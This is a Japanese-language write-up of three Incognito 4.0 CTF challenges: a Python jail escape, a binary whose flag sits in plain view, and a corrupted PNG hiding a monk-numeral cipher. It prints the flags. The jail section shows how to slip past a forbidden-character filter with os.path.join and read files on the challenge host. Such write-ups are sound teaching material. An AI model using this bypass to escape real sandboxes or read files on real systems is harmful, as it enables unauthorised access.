


# Incognito 4.0 <!-- omit in toc -->

https://ictf.ninja/challenges


- [pyjail/TheOnlyJail](#pyjailtheonlyjail)
  - [writeup](#writeup)
  - [FLAG](#flag)
- [Rev/Meow](#revmeow)
  - [writeup](#writeup-1)
  - [flag](#flag-1)
- [Crypto/Ancient](#cryptoancient)
  - [writeup](#writeup-2)
  - [FLAG](#flag-2)


## pyjail/TheOnlyJail

171 points

`143.198.219.171:3333`

### writeup

pythonのjail問題です．

python3環境で，`()`以外の区切り文字(/, \, %, &, +など)が禁止されていた．

```bash
jail> print(os.listdir("."))
['dev', 'bin', 'var', 'srv', 'run', 'media', 'sbin', 'home', 'tmp', 'root', 'proc', 'lib', 'etc', 'libx32', 'sys', 'lib32', 'mnt', 'boot', 'usr', 'lib64', 'opt', '.dockerenv', 'start.sh']
jail> os.system("ls ./home")
Error: Error: forbidden character '/'
```

`/`を入力せずにパスを出力する方法として，`os.path.join`がある．これにより接続先が`/home/ctf`というディレクトリ構成だと判明した．

```bash
jail> print(os.listdir(os.path.join("home")))
['ctf']
jail> print(os.listdir(os.path.join("home", "ctf")))
['.profile', '.bashrc', '.bash_logout', 'flag.txt', 'jail.py']
```

最後に`/home/ctf/flag.txt`を出力する．そこで，`open()`, `read()`メソッドを用いて実現した．

```bash
jail> path = os.path.join("home", "ctf", "flag.txt")
jail> os.system("cat" path)
jail> file = open(path, 'r')
jail> out = file.read()
jail> print(out)
ictf{ff8ab219-a90b-44f8-9273-ccc13766f2eb}
```

### FLAG

```
ictf{ff8ab219-a90b-44f8-9273-ccc13766f2eb}
```


## Rev/Meow

100 points

配布: [meow](./meow)

### writeup

バイナリのセクションを眺めていると，フラグがあった．

```bash
.rodata (PROGBITS) section started  {0x2000-0x204f}
00002000  uint32_t _IO_stdin_used = 0x20001

00002004              00 00 00 00 00 69 00 63 00 74 00 66 00 7b 00 65 00 61 00 73 00 69 00 65 00 73 00 74      .....i.c.t.f.{.e.a.s.i.e.s.t
00002020  00 5f 00 63 00 68 00 61 00 6c 00 6c 00 65 00 6e 00 67 00 65 00 5f 00 6f 00 66 00 5f 00 74 00 68  ._.c.h.a.l.l.e.n.g.e._.o.f._.t.h
00002040  00 65 00 6d 00 5f 00 61 00 6c 00 6c 00 7d 00                                                     .e.m._.a.l.l.}.
.rodata (PROGBITS) section ended  {0x2000-0x204f}
```

### flag

```
ictf{easiest_challenge_of_them_all}
```

## Crypto/Ancient

配布: 破損した画像ファイル

### writeup

exiftoolを使うと`File format error`と出た．

```
exiftool challenge.png
ExifTool Version Number         : 12.42
File Name                       : challenge.png
Directory                       : .
File Size                       : 4.8 kB
File Modification Date/Time     : 2023:02:18 20:34:25+09:00
File Access Date/Time           : 2023:02:18 20:34:26+09:00
File Inode Change Date/Time     : 2023:02:18 20:34:25+09:00
File Permissions                : -rw-r--r--
Error                           : File format error
```

PNGのファイルシグネチャを確認すると，`89 50 4E 47 0D 0A 1A 0A`となっていたなかったため，書き換えた．

```bash
# before
 cat challenge.png| xxd | head
00000000: 0000 0000 aa0a 1a0a 0000 000d 4948 4452  ............IHDR
00000010: 0000 0190 0000 00aa 0806 0000 0083 2919  ..............).
00000020: b300 0001 8469 4343 5049 4343 2070 726f  .....iCCPICC pro
00000030: 6669 6c65 0000 2891 7d91 3d48 c340 1cc5  file..(.}.=H.@..
# after
cat challenge.png| xxd | head
00000000: 8950 4e47 0d0a 1a0a 4948 4452 0000 0190  .PNG....IHDR....
00000010: 0000 00aa 0806 0000 0083 2919 b300 0001  ..........).....
00000020: 8469 4343 5049 4343 2070 726f 6669 6c65  .iCCPICC profile
00000030: 0000 2891 7d91 3d48 c340 1cc5 5f53 a545  ..(.}.=H.@.._S.E
```

書き換えた後，画像ファイルを開くと次の文字が表れた．



「CTF crypto Ancient」と調べると，Symbol Ciphersがヒットした．

- [https://ctf.support/crypto/symbol/](https://ctf.support/crypto/symbol/)
- [https://jsom1.github.io/_challenges/templed](https://jsom1.github.io/_challenges/templed)

この暗号は，`the ciphers of the monks`と呼ばれている．
以下の画像(出典：https://jsom1.github.io/_challenges/templed )の棒を重ね合わせたときの棒が，そのときに使用した数字と対応している．




ここで，先頭5つが`ictf{`を表していると予想した．iのASCIIコードが`105`であるため，予想と合致した．


あとは`{}`の中身を順番にデコードし，フラグが完成した．

### FLAG

`ictf{0ld_m0nk_190de1c3}`
